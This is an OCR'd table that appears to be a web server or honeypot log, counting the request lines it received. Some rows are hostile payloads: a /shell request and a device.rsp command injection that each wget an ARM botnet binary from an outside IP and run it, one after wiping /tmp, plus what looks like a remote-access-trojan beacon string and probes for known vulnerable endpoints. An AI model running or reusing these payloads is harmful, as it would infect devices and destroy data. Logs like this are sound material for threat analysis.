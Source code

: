|  16 |                     5 | GET /t4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  17 |                     5 | GET /form.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                            |
|  18 |                     5 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                                                                                      |
|  19 |                     5 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |
|  20 |                     5 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  21 |                     5 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  22 |                     4 | GET /redirectLoginGet.json?timeStamp=1715076379286 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                        |
|  23 |                     3 | GET /libs/js/iframe.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                    |
|  24 |                     3 | GET /aab8 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  25 |                     3 | 145.ll|'|'|SGFjS2VkX0Q0OTkwNjI3|'|'|WIN-JNAPIER0859|'|'|JNapier|'|'|19-02-01|'|'||'|'|Win 7 Professional SP1 x64|'|'|No|'|'|0.7d|'|'|..|'|'|AA==|'|'|112.inf|'|'|SGFjS2VkDQoxOTIuMTY4LjkyLjIyMjo1NTUyDQpEZXNrdG9wDQpjbGllbnRhLmV4ZQ0KRmFsc2UNCkZhbHNlDQpUcnVlDQpGYWxzZQ==12.act|'|'|AA==                                                                                                                                           |
|  26 |                     3 | GET /_ignition/execute-solution HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                           |
|  27 |                     3 | GET /console/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                             |
|  28 |                     3 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F31.57.102.68%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                          |